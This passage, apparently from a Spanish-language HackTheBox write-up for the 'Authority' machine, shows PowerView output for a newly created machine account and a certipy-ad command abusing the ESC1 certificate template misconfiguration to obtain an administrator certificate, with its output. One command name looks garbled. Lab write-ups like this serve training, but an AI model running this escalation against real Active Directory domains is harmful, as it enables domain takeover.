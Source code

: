 Una vez tengamos el `Computer` creado, verificaremos desde `PowerView.py` de que el objeto se ha creado correctamente en el Active Directory.

```powershell
PV > Add-ADComGet-ADObject -Identity Gzzcoo$
objectClass                : top
                             person
                             organizationalPerson
                             user
                             computer
cn                         : Gzzcoo
distinguishedName          : CN=Gzzcoo,CN=Computers,DC=authority,DC=htb
instanceType               : 4
whenCreated                : 22/02/2025 06:52:39 (today)
whenChanged                : 22/02/2025 06:52:39 (today)
uSNCreated                 : 262368
uSNChanged                 : 262370
name                       : Gzzcoo
objectGUID                 : {beb65f20-e494-4c46-90b0-bfc2cbd3ea15}
userAccountControl         : WORKSTATION_TRUST_ACCOUNT [4096]
badPwdCount                : 0
codePage                   : 0
countryCode                : 0
badPasswordTime            : 01/01/1601 00:00:00 (424 years, 1 month ago)
lastLogoff                 : 1601-01-01 00:00:00+00:00
lastLogon                  : 01/01/1601 00:00:00 (424 years, 1 month ago)
localPolicyFlags           : 0
pwdLastSet                 : 22/02/2025 06:52:39 (today)
primaryGroupID             : 515
objectSid                  : S-1-5-21-622327497-3269355298-2248959698-11601
accountExpires             : 9999-12-31 23:59:59.999999+00:00
logonCount                 : 0
sAMAccountName             : Gzzcooo$
sAMAccountType             : SAM_MACHINE_ACCOUNT
dNSHostName                : Gzzcoo.authority.htb
servicePrincipalName       : RestrictedKrbHost/Gzzcoo.authority.htb
                             RestrictedKrbHost/Gzzcoo
                             HOST/Gzzcoo.authority.htb
                             HOST/Gzzcoo
objectCategory             : CN=Computer,CN=Schema,CN=Configuration,DC=authority,DC=htb
isCriticalSystemObject     : False
dSCorePropagationData      : 01/01/1601
mS-DS-CreatorSID           : S-1-5-21-622327497-3269355298-2248959698-1601
```

Una vez que hemos creado una cuenta de equipo, procedemos a realizar el `ESC1` utilizando sus credenciales. La solicitud de certificado se completa con éxito, obteniendo un certificado con el UPN `administrator@authority.htb`, lo que nos permite autenticarnos como este usuario y escalar privilegios en el dominio.

```bash
❯ certipy-ad req -u 'Gzzcooo$'@10.10.11.222 -p 'Gzzcoo123' -ca AUTHORITY-CA -template CorpVPN -upn administrator@authority.htb -target 10.10.11.222
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
